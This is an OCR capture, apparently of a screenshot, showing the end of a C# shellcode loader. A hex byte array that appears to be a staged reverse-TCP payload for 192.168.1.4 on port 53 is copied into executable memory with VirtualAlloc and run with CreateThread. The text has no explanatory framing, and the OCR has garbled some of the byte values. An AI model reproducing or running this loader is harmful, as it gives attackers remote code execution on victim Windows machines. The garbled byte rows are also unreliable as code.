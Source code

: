    0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,x01,
    
    0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,x48,
    
    0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,xe9,
    
    0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x00,x00,
    
    0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,0x49,0x89,xe5,
    
    0x49,0xbc,0x02,0x00,0x00,0x35,0xc0,0xa8,0x01,0x04,0x41,0x54,0x49,0x89,xe4,
    
    0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,x68,
    
    0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,x0a,
    
    0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,x89,
    
    0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,xd5,
    
    0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,xba,
    
    0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,0xce,0x75,xe5,
    
    0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,xc9,
    
    0x6a,0x04,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,xd5,
    
    0x83,0xf8,0x00,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,x41,
    
    0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,x41,
    
    0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,x31,
    
    0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,xc8,
    
    0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,x40,
    
    0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,0x30,0xff,xd5,
    
    0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,x3c,
    
    0xff,0xff,0xff,0x48,0x01,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,x41,
    
    0xff,0xe7,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,xd5 };
    
    
    UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode .Length,
    
    MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    
    Marshal.Copy(shellcode , 0, (IntPtr)(funcAddr), shellcode .Length);
    
    IntPtr hThread = IntPtr.Zero;
    
    UInt32 threadId = 0; 
    
    IntPtr pinfo = IntPtr.Zero; 
    
    hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
    
    WaitForSingleObject(hThread, 0xFFFFFFFF); 
    
    } 
    
    private static UInt32 MEM_COMMIT = 0x1000; 
    